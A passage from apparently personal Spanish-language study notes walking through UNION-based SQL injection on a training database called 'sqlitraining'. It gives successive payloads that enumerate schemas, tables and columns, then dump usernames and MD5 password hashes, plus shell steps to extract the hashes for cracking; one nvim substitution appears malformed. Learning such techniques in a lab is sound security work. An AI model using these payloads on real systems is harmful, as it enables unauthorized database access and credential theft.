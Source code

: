Posteriormente, si queremos saber el usuario al que le pertenece esa base de datos, lo hacemos con:

```bash
searchitem=test' union select 1,2,user(),4,5-- -
```

Ahora, si queremos ver todas las bases de datos disponibles, lo hacemos con:

```bash
searchitem=test' union select 1,2,schema_name,4,5 from information_schema.schemata-- -
```

Para ver las tablas que están disponibles en esa base de datos, hacemos lo siguiente:

```bash 
searchitem=test' union select 1,2,table_name,4,5 from information_schema.tables where table_schema='sqlitraining'-- -
```

Ahora, si queremos ver las columnas asociadas a esa tabla, lo que hacemos es lo siguiente:

```bash 
searchitem=test' union select 1,2,column_name,4,5 from information_schema.columns where table_schema='sqlitraining' and table_name='users'-- -
```

Posteriormente, si queremos ver los campos de usuario y contraseña, haremos lo siguiente:

```bash 
searchitem=test' union select 1,username,password,4,5 from users-- -
```

Si queremos concatenar para que sea más fácil copiar un solo hash en MD5, haremos lo siguiente:

```bash
searchitem=test' union select 1,2,group_concat(username,0x3a,password),4,5 from users-- -
```

En donde la parte de `0x3a` es la ejemplificación de los dos puntos (`:`) en hexadecimal, que es interpretado por la base de datos. Así, en el modo pretty de Burp Suite, podemos copiar la concatenación en un solo hash disponible.

Una vez copiadas las contraseñas en un archivo creado en `nvim`, en la terminal de comandos podemos aplicar una sustitución como:

```Nvim
%s/,\r/g
```

Donde la sustitución se aplica a la coma (`,`) por un retorno de carro (`\r`), y se le aplica a todo el archivo con la opción `/g`.

Ahora, con el siguiente comando, tomamos solo la parte de los hashes para después romperlos usando herramientas como hashes.com. Para extraer solo las contraseñas, ejecutamos el siguiente comando:

```bash 
cat contraseñas | awk '{print $2}' FS=":"
``````


![[Pasted image 20240919225236.png]]
![[Pasted image 20240919225320.png]]
